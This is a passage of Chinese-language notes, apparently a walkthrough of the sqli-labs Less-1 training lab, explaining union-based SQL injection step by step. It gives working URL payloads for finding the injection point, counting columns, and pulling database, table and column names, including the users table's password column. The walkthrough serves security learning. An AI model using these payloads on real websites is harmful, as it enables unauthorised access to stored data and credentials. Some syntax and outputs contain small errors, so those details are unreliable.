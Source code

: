### union联合查询

 - 适用：`页面有回显位的情况`

 - 当访问id=1 union selecet 1,2,3时，执行的sql语句为： ```sql select * from users
   where 'id'=1 union select 1,2,3 ```

   此时的sql语句可分为两条：

     1. `select * from users where 'id'=1`
     2. `union select 1,2,3` 

    	 此时利用第二条语句(Union查询)即可获取数据库中的数据

eg:sqli-labs------Less1  

```sql
1--判断注入点类型 
?id=1			#正常回显 
?id=1 and 1=1 	#正常回显 
?id=1 and 1=2 	#正常回显
-------------------非数字型注入 
?id=1’,报错 ?id=1’ --+	#正常回显
-------------------字符型注入。闭合方式为单引号’ ’
```


```sql
2--爆段  
?id=1' or 1=1 order by 1 --+ #正常 
?id=1' or 1=1 order by 2 --+ #正常 
?id=1' or 1=1 order by 3 --+ #空白 
?id=1' or 1=1 order by 4 --+ #报错(Unknow column ‘4’ in ‘order clause’)

或 

从 ?id=-1' union select 1--+		#报错 
到 ?id=-1' union select 1,2,3 --+  	#正常回显即可
```


```sql
3--爆数据库 
?id=-1' union select 1,2,database()--+ 得到数据库名security
```


```sql
4--爆表 
?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+ 
#得到表名：emails,referers,uagents,users
```


```sql
5--爆列名 
?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+ 
得到列名 avatar,failed_login,....,USER,id,password,username
```
